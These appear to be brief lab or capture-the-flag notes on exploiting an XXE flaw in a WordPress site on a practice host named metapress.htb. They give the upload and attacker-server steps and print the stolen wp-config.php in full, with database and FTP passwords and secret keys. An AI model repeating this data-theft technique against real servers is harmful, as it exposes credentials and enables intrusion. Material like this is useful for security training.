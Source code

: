 ## XXE vuln

Upload payload.wav and host NAMEEVIL on a php server locally

`php -S 0.0.0.0:80`

Should get b64 output and just decode, decoded results below:

## After XXE vuln on QP 5.6.2

```
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
```